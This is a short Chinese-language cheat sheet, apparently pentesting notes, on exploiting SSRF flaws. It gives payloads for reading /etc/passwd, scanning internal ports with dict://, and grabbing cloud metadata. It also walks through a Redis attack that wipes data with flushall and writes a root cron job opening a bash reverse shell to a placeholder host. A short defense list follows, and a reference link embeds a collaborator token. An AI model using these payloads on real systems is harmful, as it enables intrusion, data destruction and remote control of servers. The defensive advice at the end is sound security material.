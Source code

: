 任何参数中有url的地方，都有可能存在SSRF漏洞。

## 简单判断是否存在漏洞
参数中有url的地方，修改为`https://www.baidu.com/robots.txt`和`127.0.0.1`看下反应能否读取到网页内容

## file协议获取本地信息
`file:///etc/passwd`读取web配置文件，密码本，host信息等。

## dict协议扫描端口和目录
`dict://127.0.0.1:8000`修改不同的内网地址和ip进行探测

## 伪协议拓展
`file:/// dict:// sftp:// ldap:// tftp:// gopher://`

## 云上SSRF利用
利用SSRF获取云元数据，利用元数据读取到的信息，例如ssh_rsa、进行后渗透。

参考[https://www.yuque.com/g/baohexiawucha/nqbn0l/gpnkf8oz4yvro09s/collaborator/join?token=os5sBE0GsACyR2c6&source=doc_collaborator#](https://www.yuque.com/g/baohexiawucha/nqbn0l/gpnkf8oz4yvro09s/collaborator/join?token=os5sBE0GsACyR2c6&source=doc_collaborator#) 《云上元数据meta-data利用》

## Redis未授权利用GetShell
+ 清空 key  
`dict://x.x.x.x:6379/flushall`
+ 设置要操作的路径为定时任务目录  
`dict://x.x.x.x:6379/config set dir /var/spool/cron/`
+ 在定时任务目录下创建 root 的定时任务文件  
`dict://x.x.x.x:6379/config set dbfilename root`
+ 写入 Bash 反弹 shell 的 payload  
`dict://x.x.x.x:6379/set x "\n* * * * * /bin/bash -i >%26 /dev/tcp/x.x.x.x/2333 0>%261\n"`
+ 保存上述操作。  
`dict://x.x.x.x:6379/save`

## 防御方法
1. 禁止跳转
2. 过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。
3. 禁用不需要的协议，仅仅允许http和https请求。可以防止类似于file://, gopher://, ftp:// 等引起的问题
4. 设置URL白名单或者限制内网IP（使用gethostbyname()判断是否为内网IP）
5. 限制请求的端口为http常用的端口，比如 80、443、8080、8090
6. 统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。

